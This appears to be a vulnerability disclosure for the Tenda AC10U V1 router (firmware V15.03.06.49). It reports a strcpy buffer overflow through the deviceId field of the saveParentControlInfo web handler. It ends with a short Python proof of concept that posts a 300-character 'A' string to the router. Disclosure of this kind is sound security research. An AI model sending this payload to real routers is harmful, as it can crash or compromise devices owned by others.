 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/saveParentControlInfo

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](2.png)

get value from deviceId 

![](3.png)

finall call strcpy ,cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/saveParentControlInfo"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceId': payload})
```
